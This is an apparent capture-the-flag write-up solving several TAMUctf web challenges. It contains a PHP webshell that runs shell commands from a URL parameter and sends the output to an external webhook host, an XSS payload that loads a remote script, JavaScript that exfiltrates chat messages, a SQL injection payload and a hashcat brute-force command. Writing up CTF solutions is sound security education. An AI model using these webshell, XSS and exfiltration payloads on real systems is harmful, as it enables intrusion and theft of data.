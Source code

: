 # Web
## Remote
The code checks keywords before filtering. Hence, injecting chracters that will be filtered later would bypass it, like `p hp`. Once uploaded a webshell, `ls /tmp | head -n 1` to enumerate the files in /tmp and find out the flag. Since the server will not respond, I set up a web server to retrieve the response with `file_get_contents`

Final payload to read the flag
```
https://remote.tamuctf.com/uploads/a883ffa3e14ef5a295448894efe2f0fc/gwm2ucz4dxgeyaavxid6kr1z28yk8f22.php?cmd=cat%20/tmp/flag-de88df3ebf2f0c4bf871ddfb2e0fcce4.txt
```

Webshell:
```php
<?php $url='http://webhook/?' . exec($_GET['cmd']);file_get_contents($url);?>
```

## Flipped
CBC Flip attack. Flip the 10th byte

## Forgotten Password
The code checks the email with `include`, which can be tricked with a `\x00`

## Imposter

XSS code:
```HTML
<img src=x onerror=document.body.appendChild(document.createElement('script')).src='//webhook/imposter.js'>
```

JS code on the server:
```JavaScript
socket.on('message', function(data){

var httpRequest = new XMLHttpRequest();
httpRequest.open('POST', 'http://webhook/imposter.php', true);
httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");
httpRequest.send('data=from flag message-' + data.content);
httpRequest.onreadystatechange = function () {
    if (httpRequest.readyState == 4 && httpRequest.status == 200) {
        var json = httpRequest.responseText;
        console.log(json);
    }
};

        }
)
socket.emit('flag');
```

PHP code on the server:
```php
<?php
$data = $_POST['data'];

$file = fopen("/tmp/data.txt", "w");

if (fwrite($file, $data)) {
} else {
}

fclose($file);
?>
```

## cereal
Replace the password md5(''). Then it is a regular SQL injection.

```
"username";s:57:"a' union select 1,2,group_concat(password),4 from users--"
"password":"d41d8cd98f00b204e9800998ecf8427e"
```

## cracked
Get the base64 decoded hex of sig. Then brute force the key with hashcat.

```
hashcat -m 150 -a 3 'beefda82f9ed4590ea38e9c5a4616397e19f9c74:{"admin": 0, "username": "guest"}' '?a?a?a?a?a?a'

beefda82f9ed4590ea38e9c5a4616397e19f9c74:{"admin": 0, "username": "guest"}:6lmao9
```
